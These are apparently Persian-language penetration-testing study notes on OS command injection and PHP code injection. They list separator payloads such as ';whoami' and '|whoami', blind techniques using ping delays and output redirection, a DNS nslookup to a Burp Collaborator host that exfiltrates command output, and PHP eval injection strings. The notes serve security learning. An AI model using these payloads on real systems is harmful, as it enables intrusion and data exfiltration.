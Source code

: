 # Remote Command Execution

## Concept
- در بخش های زیر به دنبال این آسیب پذیری می گردیم :
  - انتخاب یک آیتم از درون dropdown box
    - باید برای تغییر این پارامتر و نیز مشاهده تاثیر در پاسخ، حتما از Burp استفاده کنیم
  - درون فیلدهای بخش ثبت نظرات که ممکن است از دستورات سیستمی برای پردازش اطلاعات کاربر (مانند ایمیل) استفاده شده باشد
    - هنگام استفاده از Burp باید حتما URL Encoding داشته باشیم (مثلا به جای فاصله از + استفاده کنیم)

## Payloads
```
;whoami
;%20whoami
&whoami
&&whoami
|whoami
||whoami
%0Awhoami
```

## Blind OS Command Injection
- Time delays : ```x||ping+-c+10+127.0.0.1||```
<p align="right">در این حالت پس از اجرای دستور فوق، 10 ثانیه طول می کشد تا response را در مرورگر مشاهده کنیم</p> 

- Output redirection : ```||whoami>/var/www/images/output.txt||```
<p align="right">عکس ها در مسیر فوق ذخیره شده اند، در این حالت، خروجی دستور در مسیر share شده ذخیره می گردد و بعدا می توانیم یکی از عکس های محصولات را باز کرده، سپس نام  فایل را با نام output.txt تغییر دهیم، تا نتیجه دستور را مشاهده کنیم</p>

- Out-of-band interaction : ```x||nslookup+7goyqnfizle0fk6mj5zk5qjtrkxalz.burpcollaborator.net```
<p align="right">در اینحالت سرور می تواند به یک آدرس بیرونی وصل شود، برای بررسی از Burp Collaborator استفاده می کنیم </p>

- Out-of-band data exfilteration : ```||nslookup+`whoami`.x0y8fg1javlrivvsd4hp2koh58byzn.burpcollaborator.net||```
<p align="right">در اینحالت می خواهیم نتیجه دستور در کوئری DNS به سمت سرور مهاجم در اینترنت ارسال شود، که در اینجا از Burp Collaborator استفاده شده و خروجی به شکل *peter-jSRUyX.x0y8fg1javlrivvsd4hp2koh58byzn.burpcollaborator.net.burpcollaborator.net* خواهد بود</p>

# Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Sample PHP executable
- https://www.php.net/manual/en/function.shell-exec.php

